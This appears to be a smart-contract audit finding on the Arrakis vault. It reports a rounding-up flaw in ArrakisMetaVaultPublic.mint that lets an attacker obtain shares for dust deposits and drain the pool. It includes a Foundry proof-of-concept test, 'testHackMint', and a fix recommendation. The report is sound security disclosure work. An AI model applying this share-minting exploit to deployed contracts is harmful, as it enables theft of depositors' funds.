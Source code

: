 Noisy Ultraviolet Kangaroo

high

# The attacker can steal funds from the pool.

## Summary

The attacker uses rounding up to obtain 1 share for the amount of 1 token.

## Vulnerability Detail

The attacker uses `ArrakisMetaVaultPublic.mint` for deposits, acquiring only 1 share each time. Due to rounding up, the calculated proportion value also becomes 1. In `ValantisHOTModulePublic.deposit`, rounding up occurs as well. Therefore, when the numerator is less than the denominator, the calculation shows that a user only needs to deposit 1 token to obtain 1 share.

If a user deposits through `ArrakisPublicVaultRouter`, the calculation in `ValantisHOTModulePublic.deposit` for the deposit amount is correct. However, when users use `ArrakisMetaVaultPublic.mint`, the tokens are not converted into equivalent decimals. For tokens with lower decimals, the calculation remains 0, but due to rounding up, it is calculated as 1.

As the fees collected increase, shares become more valuable. However, attackers can exploit this method to acquire shares at a lower cost.

Ultimately, large amounts of shares are obtained through dust amounts.



coding poc:

This proof of concept (PoC) is derived from `testMint`. Due to the use of floor rounding in LpModuleMock's calculations, both amount0 and amount1 compute to 0. However, if rounded up, they would compute to 1.

```solidity
    function testHackMint() public {
        address user = vm.addr(uint256(keccak256(abi.encode("User"))));
        address receiver =
            vm.addr(uint256(keccak256(abi.encode("Receiver"))));
        // #region initialize.

        vault.initialize(address(module));

        address actualModule = address(vault.module());

        address[] memory whitelistedModules =
            vault.whitelistedModules();

        assert(whitelistedModules.length == 1);
        assertEq(whitelistedModules[0], address(module));
        assertEq(actualModule, address(module));

        // #endregion initialize.

        // #region mock inits.

        uint256 i0 = 2000e6;
        uint256 i1 = 1e18;

        module.setInits(i0, i1);

        // #endregion mock inits.

        // #region set token0 and token1

        module.setToken0AndToken1(USDC, WETH);

        // #endregion set token0 and token1

        uint256 shares = 1 ether / 2;

        // #region get total underlying.

        (uint256 total0, uint256 total1) = vault.getInits();

        // #endregion get total underlying.

        uint256 expectedAmount0 =
            FullMath.mulDiv(total0, shares, 1 ether);
        uint256 expectedAmount1 =
            FullMath.mulDiv(total1, shares, 1 ether);

        deal(USDC, user, expectedAmount0 * 1000);
        deal(WETH, user, expectedAmount1 * 1000);

        vm.startPrank(user);

        IERC20(USDC).approve(address(module), expectedAmount0);
        IERC20(WETH).approve(address(module), expectedAmount1);

        vault.mint(shares, receiver);

        console.log("step1 amount0: %d, amount1: %d", IERC20(USDC).balanceOf(address(module)), IERC20(WETH).balanceOf(address(module)));

        vm.stopPrank();

        module.setInits(expectedAmount0, expectedAmount1);

        vm.startPrank(user);
        vault.mint(1, receiver);
        vm.stopPrank();
        console.log("step2 amount0: %d, amount1: %d", IERC20(USDC).balanceOf(address(module)), IERC20(WETH).balanceOf(address(module)));
        console.log("supply: %d", vault.totalSupply());
    }
```



## Impact

An attacker can steal all balances in the pool

## Code Snippet

https://github.com/sherlock-audit/2024-03-arrakis/blob/64a7dc6ccb5de2824870474a9f35fd3386669e89/arrakis-modular/src/modules/ValantisHOTModulePublic.sol#L71-L74

## Tool used

Manual Review

## Recommendation

Although `ArrakisMetaVaultPublic.mint` can be called by anyone, which is intentionally designed by the project team, it is recommended that only the router should be able to call it.
